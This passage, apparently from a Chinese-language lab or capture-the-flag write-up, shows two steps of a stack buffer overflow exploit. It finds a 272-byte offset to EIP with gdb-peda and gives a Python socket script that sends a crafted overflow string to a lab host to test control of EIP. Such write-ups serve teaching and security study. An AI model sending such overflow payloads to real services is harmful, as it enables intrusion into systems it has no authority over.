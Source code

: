 4. 和上边一样测试
    
    ![image.png](image%20115.png)
    
    得到为唯一字符`25414925` 是`ASCII`码，但是因为是小端显示，所以要将字符反转`25494125`，得`%IA%`
    
    然后`gds`定位字符，那么就是说到`EIP`之前要填充`272`个字符，然后再增加四个字符就能覆盖`EIP`
    
    ```c
    gdb-peda$ pattern offset %IA%
    %IA% found at offset: 272
    ```
    
5. 测试是否能正确覆盖`EIP`
    
    ```c
    cat buffer.py
    import socket
    
    a = 'A' * 272 + 'B' * 4 + '\x00'
    s = socket.socket()
    s.connect(('192.168.111.154',1985))
    s.send(a.encode('utf-8'))
    s.close()
    ```
    